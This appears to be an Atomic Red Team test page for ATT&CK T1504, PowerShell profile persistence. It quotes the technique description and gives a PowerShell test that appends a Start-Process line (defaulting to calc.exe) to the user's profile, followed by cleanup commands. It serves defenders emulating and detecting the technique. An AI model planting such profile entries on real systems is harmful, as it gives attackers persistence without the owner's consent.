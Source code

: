 # T1504 - PowerShell Profile
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1504)
<blockquote>Adversaries may gain persistence and elevate privileges in certain situations by abusing [PowerShell](https://attack.mitre.org/techniques/T1086) profiles. A PowerShell profile  (<code>profile.ps1</code>) is a script that runs when PowerShell starts and can be used as a logon script to customize user environments. PowerShell supports several profiles depending on the user or host program. For example, there can be different profiles for PowerShell host programs such as the PowerShell console, PowerShell ISE or Visual Studio Code. An administrator can also configure a profile that applies to all users and host programs on the local computer. (Citation: Microsoft About Profiles) 

Adversaries may modify these profiles to include arbitrary commands, functions, modules, and/or PowerShell drives to gain persistence. Every time a user opens a PowerShell session the modified script will be executed unless the <code>-NoProfile</code> flag is used when it is launched. (Citation: ESET Turla PowerShell May 2019) 

An adversary may also be able to escalate privileges if a script in a PowerShell profile is loaded and executed by an account with higher privileges, such as a domain administrator. (Citation: Wits End and Shady PowerShell Profiles)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Append malicious start-process cmdlet](#atomic-test-1---append-malicious-start-process-cmdlet)


<br/>

## Atomic Test #1 - Append malicious start-process cmdlet
Appends a start process cmdlet to the current user's powershell profile pofile that points to a malicious executable

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| exe_path | Path the malicious executable | Path | calc.exe|
| ps_profile | Powershell profile to use | String | $profile|

#### Run it with `powershell`! 
```
if(Test-Path #{ps_profile}){
}
else{
  New-Item -Path #{ps_profile} -Type File -Force
}
$malicious = "Start-Process #{exe_path}"
Add-Content #{ps_profile} -Value $malicious
powershell -command exit
```


#### Cleanup Commands:
```
$oldprofile = cat $profile | Select-Object -skiplast 1
Set-Content $profile -Value $oldprofile
```

<br/>
